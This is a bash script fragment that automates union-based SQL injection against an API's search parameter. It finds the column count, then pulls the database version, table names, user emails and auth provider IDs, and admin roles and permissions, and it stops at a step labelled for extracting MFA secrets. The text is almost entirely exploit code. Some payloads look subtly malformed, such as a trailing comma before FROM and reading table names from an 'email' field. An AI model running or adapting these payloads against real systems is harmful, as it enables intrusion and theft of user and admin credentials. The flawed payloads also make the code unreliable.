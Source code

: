 ```bash
echo "[+] Testing Union-based SQL injection..."

# Determine number of columns
for i in {1..20}; do
  UNION_PAYLOAD="test' UNION SELECT $(seq -s',' 1 $i | sed 's/[0-9]\+/NULL/g')--"
  
  RESPONSE=$(curl -s -w "\n%{http_code}" \
    -X GET "${TARGET_API}${ENDPOINT}?search=${UNION_PAYLOAD}" \
    -H "Authorization: Bearer ${ADMIN_TOKEN}")
  
  HTTP_CODE=$(echo "$RESPONSE" | tail -n1)
  BODY=$(echo "$RESPONSE" | head -n-1)
  
  if [ "$HTTP_CODE" == "200" ] && ! echo "$BODY" | grep -q "error"; then
    echo "[SUCCESS] Found ${i} columns!"
    COLUMN_COUNT=$i
    break
  fi
done

if [ -z "$COLUMN_COUNT" ]; then
  echo "[-] Could not determine column count"
  exit 1
fi

# Extract database version
echo ""
echo "[+] Extracting database version..."
VERSION_PAYLOAD="test' UNION SELECT $(for j in $(seq 2 $COLUMN_COUNT); do echo -n "NULL,"; done) version()--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${VERSION_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq '.' > db_version.json

# Extract table names
echo ""
echo "[+] Extracting table names..."
TABLES_PAYLOAD="test' UNION SELECT $(for j in $(seq 2 $COLUMN_COUNT); do echo -n "NULL,"; done) table_name FROM information_schema.tables WHERE table_schema='public'--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${TABLES_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq -r '.[].email' > table_names.txt

echo "[+] Found tables:"
cat table_names.txt

# Extract user credentials
echo ""
echo "[+] Extracting user credentials..."
USERS_PAYLOAD="test' UNION SELECT user_id,email,auth_provider_id,$(for j in $(seq 4 $COLUMN_COUNT); do echo -n "NULL,"; done) FROM users--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${USERS_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq '.' > extracted_users.json

# Extract admin users
echo ""
echo "[+] Extracting admin users..."
ADMIN_PAYLOAD="test' UNION SELECT au.user_id,u.email,array_to_string(au.roles,','),array_to_string(au.permissions,','),$(for j in $(seq 5 $COLUMN_COUNT); do echo -n "NULL,"; done) FROM admin_users au JOIN users u ON au.user_id=u.user_id--"
curl -s -X GET "${TARGET_API}${ENDPOINT}?search=${ADMIN_PAYLOAD}" \
  -H "Authorization: Bearer ${ADMIN_TOKEN}" | jq '.' > extracted_admins.json

# Extract MFA secrets
echo ""
```
